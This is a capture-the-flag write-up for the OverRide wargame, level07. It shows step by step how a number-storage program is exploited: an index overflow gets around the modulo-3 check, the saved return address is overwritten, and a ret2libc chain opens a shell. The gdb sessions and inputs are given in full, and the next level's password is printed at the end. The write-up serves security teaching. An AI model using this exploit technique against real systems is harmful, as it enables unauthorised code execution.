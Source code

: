 # level07

This program is a simple number storage system. It stores and reads number in an array `unsigned int data[100]`. But we cannot store a number with `index % 3 == 0`.

## Step 1. Calculate offset to overwrite `eip`
```assembly
0x08048924 <+513>:	lea    eax,[esp+0x24]
0x08048928 <+517>:	mov    DWORD PTR [esp],eax
0x0804892b <+520>:	call   0x80486d7 <read_number>
```
```
level07@OverRide:~$ gdb -q level07
(gdb) break *0x0804892b
Breakpoint 1 at 0x804892b
(gdb) run
Starting program: /home/users/level07/level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: read

Breakpoint 1, 0x0804892b in main ()
(gdb) info registers eax
eax            0xffffd544	-10940
(gdb) info frame
Stack level 0, frame at 0xffffd710:
 eip = 0x804892b in main; saved eip 0xf7e45513
 Arglist at 0xffffd708, args:
 Locals at 0xffffd708, Previous frame's sp is 0xffffd710
 Saved registers:
  ebx at 0xffffd6fc, ebp at 0xffffd708, esi at 0xffffd700, edi at 0xffffd704,
  eip at 0xffffd70c
(gdb) print 0xffffd70c - 0xffffd544
$1 = 456
```
We set a breakpoint before calling `read_number` function, then get offset `456` by calculating `eip - eax`. For a 32 bit integer array, `eip` locates in `data[114]`.

## Step 2. Find a way to set data[114]
```
level07@OverRide:~$ gdb -batch -ex "set disassembly-flavor intel" -ex "disassemble store_number" level07
Dump of assembler code for function store_number:
[...]
   0x08048666 <+54>:	call   0x80485e7 <get_unum>
   0x0804866b <+59>:	mov    DWORD PTR [ebp-0xc],eax
[...]
   0x080486c2 <+146>:	mov    eax,DWORD PTR [ebp-0xc]
   0x080486c5 <+149>:	shl    eax,0x2
   0x080486c8 <+152>:	add    eax,DWORD PTR [ebp+0x8]
   0x080486cb <+155>:	mov    edx,DWORD PTR [ebp-0x10]
   0x080486ce <+158>:	mov    DWORD PTR [eax],edx
   0x080486d0 <+160>:	mov    eax,0x0
   0x080486d5 <+165>:	leave
   0x080486d6 <+166>:	ret
End of assembler dump.
```
We cannot set `data[114]` directly because `114 % 3 == 0`. The disassembly code shows that left shift 2 position is analogous to multiply by 4. So our goal here is to find a number who satisfies the equation `114 << 2 = X << 2`. We can find three numbers `1073741938, 2147483762 and 3221225586` by flipping bit 30 and bit 31, but `3221225586 % 3 == 0`.

## Step 3. Find ret2libc address
```
level07@OverRide:~$ gdb -q level07
Reading symbols from /home/users/level07/level07...(no debugging symbols found)...done.
(gdb) break main
Breakpoint 1 at 0x8048729
(gdb) run
Starting program: /home/users/level07/level07

Breakpoint 1, 0x08048729 in main ()
(gdb) print system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) print exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
(gdb) find &system,+9999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.

system:  0xf7e6aed0 => 4159090384
exit:    0xf7e5eb70 => 4159040368
/bin/sh: 0xf7f897ec => 4160264172
```

## Step 4. Input numbers into system
```
level07@OverRide:~$ ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4159040368
 Index: 115
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08
$ cat /home/users/$(whoami)/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```
